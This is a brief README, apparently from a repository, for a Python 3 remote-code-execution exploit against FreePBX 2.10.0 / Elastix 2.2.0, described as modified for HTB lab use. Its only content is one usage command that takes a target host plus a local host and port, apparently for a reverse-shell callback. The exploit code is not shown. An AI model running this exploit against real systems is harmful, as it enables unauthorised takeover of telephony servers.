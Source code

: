 # FreePBX-2.10.0-Elastix-2.2.0-RCE
Modified version of the original one for HTB in python3

### Exploit

```
 python3 exploit.py --rhost [RHOST] --lhost [LHOST] --lport [RPORT] --extension [NUMBER]
```
